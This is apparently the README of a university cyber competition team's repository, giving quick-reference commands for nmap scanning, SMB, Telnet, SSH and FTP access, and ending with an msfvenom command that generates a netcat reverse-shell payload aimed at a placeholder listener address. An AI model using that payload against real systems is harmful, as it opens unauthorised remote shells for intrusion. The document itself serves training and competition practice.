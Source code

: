 # .github
<img style="float: center; width: 173px; height: 200px; margin: 5px;" src="https://www.uat.edu/themes/uat/images/uat-logo.png"/>

# A Public Repository for the UAT Cyber Competition Team 
The folders represent various scripts and resources applicable to individual members or subject areas to support Blue or Red team operations.  The guidance below is for quick reference and will continue to evolve as we develop use-cases.
> ### Using any of the resources within this repository without proper permission by the target network owner will likely be illegal.  These resources are for educational purposes only. 

## RECONNAISSANCE
### Enumeration (Active Recon)
#### Network Enumeration
The first step in evaluating a target network is to identify open ports and active services.

NMAP Commands:
```
nmap [flag(s)] [target/file]
```


References:\
[Try Hack Me NMAP room](https://tryhackme.com/r/room/furthernmap)\
[NMAP Cheat Sheet All Commands & Flags Nathan House](https://www.stationx.net/nmap-cheat-sheet/)


## REMOTE ACCESS (Network Services)
[An overview of SMB, Telnet, SSH and FTP](https://chatgpt.com/share/3a9c17c6-db6d-48b6-ae75-a3d976bdfd4f)

SMB Commands:
```zsh
smbclient //[ip]/[share] -U [userName] -p [port]
```
Telnet Commands:
```zsh
telnet [ip] [port]
```
SSH Commands:
```zsh
ssh username@IP
```
FTP Commands:
```
ftp[ip]
```

References:\
[Try Hack Me Network Services room](https://tryhackme.com/r/room/networkservices)

## EXPLOITATION

Reverse Shell:\
Obtain your lhost from the terminal using ifconfig or ip a

Obtaining a reverse shell payload:
```zsh
msfvenom -p cmd/unix/reverse_netcat lhost=xx.xx.xx.xx lport=4444 R
```
